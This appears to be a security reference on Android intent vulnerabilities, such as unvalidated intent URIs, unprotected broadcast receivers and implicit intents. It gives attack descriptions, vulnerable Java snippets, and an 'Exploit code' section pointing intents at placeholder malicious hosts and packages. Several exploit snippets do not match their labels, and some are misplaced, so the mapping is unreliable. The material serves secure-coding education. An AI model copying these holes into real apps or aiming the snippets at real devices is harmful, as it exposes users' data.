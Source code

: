 Unvalidated Intent URI:
An attacker could craft a malicious link containing an intent URI that redirects the user to a phishing site or installs a malware app.

Dynamic Class Name:
An attacker could provide a malicious class name that points to a malicious activity or service and potentially steal user data or perform other malicious activities.

Unvalidated Intent Action:
An attacker could provide a malicious action that points to a malicious activity or service and potentially steal user data or perform other malicious activities.

Implicit Intent without specifying package:
An attacker could craft a fake "Send mail" dialog that intercepts and steals the email content or sends the email to a malicious email address.

Hardcoded External App Package Name:
An attacker could create a fake app with the same package name as the hardcoded package name, tricking the user into installing the malicious app and potentially stealing user data or performing other malicious activities.

Using an Intent Filter for Sensitive Data:
An attacker could intercept the implicit intent broadcast and steal the sensitive data or perform other malicious activities.

Explicit Intent with Set Component:
An attacker could replace the original component with a malicious component to steal user data or perform other malicious activities.

Intent without Permission Check:
An attacker could intercept the intent and modify the "data" parameter to steal user data or perform other malicious activities.

Unprotected Broadcast Receiver:
An attacker could send a malicious broadcast intent with the same action name, causing the receiver to process the malicious data and potentially steal user data or perform other malicious activities.

Implicit Intent with Data Scheme:
An attacker could intercept the intent and modify the URI to redirect the user to a phishing site or install a malware app.


## Vulnerable code

Unvalidated Intent URI:
```
String url = getIntent().getStringExtra("url");
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setData(Uri.parse(url));
startActivity(intent);
```
Dynamic Class Name:
```
String className = getIntent().getStringExtra("class_name");
Intent intent = new Intent();
intent.setClassName(getPackageName(), className);
startActivity(intent);
```
Unvalidated Intent Action:
```
String action = getIntent().getStringExtra("action");
Intent intent = new Intent(action);
startActivity(intent);
```
Implicit Intent without specifying package:
```
Intent intent = new Intent(Intent.ACTION_SEND);
intent.setType("text/plain");
intent.putExtra(Intent.EXTRA_SUBJECT, "Subject");
intent.putExtra(Intent.EXTRA_TEXT, "Text");
startActivity(Intent.createChooser(intent, "Send mail"));

```
Hardcoded External App Package Name:

```
Intent intent = new Intent();
intent.setAction(Intent.ACTION_VIEW);
intent.setData(Uri.parse("https://example.com"));
intent.setPackage("com.example.externalapp");
startActivity(intent);

```
Using an Intent Filter for Sensitive Data:
```
Intent intent = new Intent();
intent.setAction(Intent.ACTION_SEND);
intent.setType("text/plain");
intent.putExtra(Intent.EXTRA_TEXT, "Sensitive Data");
startActivity(intent);
```
Explicit Intent with Set Component:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.example.app", "com.example.app.MainActivity"));
startActivity(intent);
```
Intent without Permission Check:
```
Intent intent = new Intent();
intent.setAction("com.example.action");
intent.putExtra("data", "Sensitive Data");
startActivity(intent);
```
Unprotected Broadcast Receiver:
```
public class MyBroadcastReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String data = intent.getStringExtra("data");
        // Process data
    }
}

<receiver android:name=".MyBroadcastReceiver">
    <intent-filter>
        <action android:name="com.example.action" />
    </intent-filter>
</receiver>

```

Implicit Intent with Data Scheme:
```
Intent intent = new Intent(Intent.ACTION_VIEW, Uri.parse("http://example.com"));
startActivity(intent);

```

Unvalidated Intent URI:
```
Uri uri = Uri.parse("http://malicious-site.com");
Intent intent = new Intent(Intent.ACTION_VIEW, uri);
startActivity(intent);
```
Dynamic Class Name:
```
String className = "com.example.malware.MaliciousActivity";
Intent intent = new Intent();
intent.setClassName(getApplicationContext(), className);
startActivity(intent);
```

## Exploit code 

Unvalidated Intent Action:
```
String action = "com.example.malware.ACTION_ATTACK";
Intent intent = new Intent(action);
startActivity(intent);
```
Implicit Intent without specifying package:
```
Intent intent = new Intent(Intent.ACTION_SEND);
intent.setType("text/plain");
intent.putExtra(Intent.EXTRA_SUBJECT, "Subject");
intent.putExtra(Intent.EXTRA_TEXT, "Content");
startActivity(Intent.createChooser(intent, "Send mail"));
```
Hardcoded External App Package Name:
```
Intent intent = getPackageManager().getLaunchIntentForPackage("com.example.malware");
startActivity(intent);
```
Using an Intent Filter for Sensitive Data:
```
Intent intent = new Intent();
intent.setAction("com.example.SENSITIVE_DATA");
intent.putExtra("password", "sensitive-data");
sendBroadcast(intent);
```
Explicit Intent with Set Component:
```
ComponentName component = new ComponentName("com.example.malware", "com.example.malware.MaliciousActivity");
Intent intent = new Intent();
intent.setComponent(component);
startActivity(intent);
```
Intent without Permission Check:
```
Uri uri = Uri.parse("content://com.example.provider/data");
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setData(uri);
startActivity(intent);
```
Unprotected Broadcast Receiver:
```
public class MyBroadcastReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String data = intent.getStringExtra("data");
        // do something with the data, such as send it to a server
    }
}
```
Implicit Intent with Data Scheme:
```
Uri uri = Uri.parse("http://malicious-site.com");
Intent intent = new Intent(Intent.ACTION_VIEW, uri);
startActivity(intent);
```
